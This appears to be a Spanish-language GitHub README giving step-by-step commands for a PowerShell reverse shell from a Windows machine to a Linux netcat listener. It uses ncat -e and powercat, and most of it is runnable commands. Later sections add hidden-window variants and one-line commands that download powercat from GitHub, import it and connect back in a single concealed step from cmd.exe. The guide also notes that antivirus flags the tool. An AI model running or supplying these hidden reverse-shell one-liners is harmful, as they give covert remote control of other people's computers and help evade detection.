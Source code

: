 # RemotePowerShells
Repositorio sobre shell remotas.

# Shell Remota entre Linux y Windows con Ncat

Este documento proporciona una guía paso a paso para establecer una shell remota entre una máquina Linux y una máquina Windows utilizando Netcat en Linux y Ncat en Windows, con la ventana de PowerShell en la máquina Windows.

## En la máquina Linux (Listener)

1. Abre una terminal.
2. Ejecuta el siguiente comando para iniciar un listener con Netcat:
   ```
   nc -lvp 4444
   ```
   Donde `4444` es el puerto en el que deseas escuchar.

## En la máquina Windows (Conector)

1. Abre cmd.exe.
2. Inicia una shell remota con la ventana de PowerShell con el siguiente comando:
   ```
   ncat -e powershell <ip-address> 4444
   ```
   Donde `<ip-address>` es la dirección IP de tu máquina Linux y `4444` es el puerto que especificaste en el comando Netcat.

Ahora, cuando te conectes desde tu máquina Linux, obtendrás una shell de PowerShell de tu máquina Windows.



# Shell Remota entre Linux y Windows con Powercat

Guía paso a paso para establecer una shell remota entre una máquina Linux y una máquina Windows utilizando Netcat y Powercat.
**IMPORTANTE:** muchos antivirus, como Windows Defender, identifican el archivo `powercat.ps1` como código malicioso una vez descargado, procediendo a su bloqueo y eliminación.

## En la máquina Linux (Listener)

1. Abre una terminal.
2. Ejecuta el siguiente comando para iniciar un listener con Netcat:
   ```
   nc -lvp 4444
   ```
   Donde `4444` es el puerto en el que deseas escuchar.

## En la máquina Windows (Conector)

1. Abre PowerShell.
2. Descarga e importa el módulo Powercat con los siguientes comandos:
   ```
   Invoke-WebRequest "https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1" -OutFile powercat.ps1
   Import-Module ./powercat.ps1
   ```
3. Conecta tu máquina Windows a la máquina Linux con el siguiente comando:
   ```
   powercat -c <ip-address> -p 4444 -ep powershell
   ```
   Donde `<ip-address>` es la dirección IP de tu máquina Linux y `4444` es el puerto que especificaste en el comando Netcat.

Ahora, cuando te conectes desde tu máquina Linux, obtendrás una shell de PowerShell de tu máquina Windows.

### Inicia una shell remota con la ventana de PowerShell oculta con el siguiente comando:
   ```
   Start-Process powershell -ArgumentList "-WindowStyle Hidden -Command & {powercat -c <ip-address> -p 4444 -ep powershell}" 
   ```
### Unificar descarga de Powercat, inicio de una shell remota con la ventana de PowerShell oculta con el siguiente comando:
   ```
   Start-Process powershell -ArgumentList "-WindowStyle Hidden -Command & {Invoke-WebRequest 'https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1' -OutFile powercat.ps1; Import-Module ./powercat.ps1; powercat -c <ip-address> -p 4444 -ep powershell}" 
   ```
Este comando realiza las siguientes acciones:

1. Inicia un nuevo proceso de PowerShell con la ventana oculta.
2. Descarga el módulo Powercat e importa el módulo.
3. Establece la shell remota.

### Iniciar la shell desde cmd.exe

Aquí tienes el comando unificado que descarga Powercat, inicia una shell remota y oculta la ventana de PowerShell, todo en una sola línea desde un cmd.exe:
```
powershell -Command "& {Start-Process powershell -ArgumentList '-WindowStyle Hidden -Command & {Invoke-WebRequest ''https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'' -OutFile powercat.ps1; Import-Module ./powercat.ps1; powercat -c <ip-address> -p 4444 -ep powershell}'}"
```
